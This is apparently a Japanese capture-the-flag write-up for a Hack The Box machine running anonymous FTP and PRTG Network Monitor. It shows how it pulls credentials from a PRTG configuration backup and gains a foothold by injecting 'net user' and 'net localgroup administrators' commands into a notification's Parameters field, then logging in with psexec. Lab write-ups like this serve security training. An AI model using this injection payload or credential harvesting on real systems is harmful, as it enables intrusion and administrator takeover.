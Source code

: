 # Recon
- port 21 で anonymous login が許可されている ftp server が動いている
- port 80 で PRTG Network monitor が動いている
- ftp server anonymous login するとCドライブをルートとしてるのでいろんなファイルが見れる
  - user.txt を閲覧可能
- PRTG Network Monitor の configuration ファイルを確認
  - プログラム
    - ```%programfiles%\PRTG Network Monitor```
    - ```%programfiles(x86)%\PRTG Network Monitor```
  - データベース
    - ```%programdata%\Paessler\PRTG Network Monitor```
  - https://kb.paessler.com/en/topic/463-how-and-where-does-prtg-store-its-data
- ```/ProgramData/Paessler/PRTG Network Monitor/PRTG Configuration.old.bak```にユーザとパスワードが載っている
  - user: prtgadmin
  - pass: PrTg@dmin2018
- prtgadmin / PrTg@dmin2018 だと入れないけど prtgadmin / PrTg@dmin2019 だと入れる
  - これらは2018年のバックアップデータに書かれてたもので、最新は2019年で動いていることから予測

# Foothold
- PRTG のバージョンは ```18.1.37.13946``` 
- RCEが可能
  - https://www.codewatch.org/blog/?p=453
  - [Setup] -> [Account settings] -> [Notification] -> [+] -> [Add new notification]
  - [Execute Program] を有効にし、```Parameterrs```に```abc.txt | net user htb abc123! /add ; net localgroup administrators htb /add```を記入しsave
    - ```net user htb abc123! /add```はユーザ htb を作成し、パスワードを abc123! とするコマンド
    - ```net localgroup administrators htb /add```はユーザ htb を administrators グループに所属させるコマンド
  - notification したのち ```psexec.py htb:'abc123!'@10.10.10.152``` でログイン
  - ```more root.txt``` で root.txt ゲット

